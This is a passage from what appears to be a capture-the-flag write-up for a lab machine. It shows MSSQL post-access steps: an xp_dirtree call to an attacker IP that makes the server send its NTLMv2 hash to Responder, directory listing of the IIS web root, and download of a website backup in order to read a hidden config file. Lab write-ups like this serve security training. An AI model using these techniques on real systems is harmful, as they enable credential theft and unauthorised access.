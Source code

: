 There is nothing useful in the database and we can't run commands.

One thing I like to do after getting access to mssql is to get the `NTLMv2` hash.

First we setup `responder` then run this command `xp_dirtree \\10.10.16.38\asdf;`

![ntlmv2](2.png)

We got the hash but unfortunately I couldn't crack it.

## **Foothold**

One other trick we can do with `xp_dirtree` is to list folders using the following command.

```shell
EXEC xp_dirtree '{folder}', 1, 1;
```

We coulnd't find anything on the website earlier so let's check if there is anything good in the root directory.

Since the web server is Microsoft IIS, the web root is located at `C:\inetpub\wwwroot`.

```bash
SQL (MANAGER\Operator  guest@master)> EXEC xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

js                                    1      0   

service.html                          1      1   

web.config                            1      1   

website-backup-27-07-23-old.zip       1      1   

SQL (MANAGER\Operator  guest@master)> 

```

We found a backup file, let's download it and see what we can find.

```shell
wget http://manager.htb/website-backup-27-07-23-old.zip

unzip website-backup-27-07-23-old.zip

cat .old-conf.xml 
```
